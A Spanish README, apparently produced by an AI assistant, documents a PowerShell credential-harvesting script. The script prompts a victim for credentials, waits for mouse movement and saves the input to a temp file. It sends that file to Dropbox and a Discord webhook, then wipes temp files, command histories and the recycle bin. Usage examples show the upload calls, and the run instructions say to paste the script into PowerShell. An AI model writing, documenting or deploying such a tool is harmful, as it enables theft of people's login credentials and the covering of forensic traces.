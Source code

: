 
# Script de Autenticación y Subida de Credenciales a Dropbox y Discord

Este script de PowerShell recopila credenciales de usuario, las guarda en un archivo temporal y luego las sube a Dropbox y Discord. Además, limpia cualquier rastro del script después de su ejecución.

## Características

- Recopila credenciales del usuario.
- Pausa el script hasta detectar movimiento del ratón.
- Asegura que la tecla de Bloq Mayús esté desactivada.
- Guarda las credenciales en un archivo temporal.
- Sube el archivo de credenciales a Dropbox.
- Envía el archivo de credenciales a un webhook de Discord.
- Limpia los rastros del script, incluyendo el historial de PowerShell y la papelera de reciclaje.

## Requisitos

- PowerShell
- Conexión a Internet
- Token de API de Dropbox (almacenado en la variable de entorno `db`)
- URL del webhook de Discord (almacenada en la variable de entorno `dc`)
- Sistema con soporte para .NET y bibliotecas de Windows Forms

## Uso

### Función Get-Creds

Esta función solicita las credenciales del usuario.

### Función Pause-Script

Esta función pausa el script hasta que se detecte movimiento del ratón.

### Función Caps-Off

Esta función asegura que la tecla de Bloq Mayús esté desactivada.

### Función DropBox-Upload

Esta función sube un archivo a Dropbox utilizando la API de Dropbox.

#### Parámetros

- **SourceFilePath**: La ruta del archivo que se va a subir.

#### Ejemplo

```powershell
DropBox-Upload -SourceFilePath "C:\ruta\al\archivo.txt"
```

### Función Upload-Discord

Esta función envía un archivo y/o mensaje a un webhook de Discord.

#### Parámetros

- **file**: La ruta del archivo que se va a subir.
- **text**: El texto que se va a enviar.

#### Ejemplo

```powershell
Upload-Discord -file "C:\ruta\al\archivo.txt" -text "Aquí están las credenciales."
```

### Ejecución del Script

Para ejecutar el script, simplemente cópialo y pégalo en una sesión de PowerShell con los permisos adecuados. Asegúrate de tener configuradas las variables de entorno `db` y `dc` con tu token de API de Dropbox y la URL del webhook de Discord, respectivamente.

## Instalación

1. Clona el repositorio:
    ```bash
    git clone https://github.com/tuusuario/recopilacion-credenciales.git
    cd recopilacion-credenciales
    ```

2. Asegúrate de tener los permisos necesarios para ejecutar scripts de PowerShell en tu sistema.

## Limpieza

El script incluye comandos para limpiar cualquier rastro de su ejecución:

- Elimina el contenido de la carpeta temporal.
- Elimina el historial del cuadro de ejecución.
- Elimina el historial de PowerShell.
- Vacía la papelera de reciclaje.

## Licencia

Este proyecto está licenciado bajo la Licencia MIT. Ver el archivo `LICENSE` para más detalles.
```

Este README.md proporciona una descripción clara y completa de cómo usar y entender el script en español.
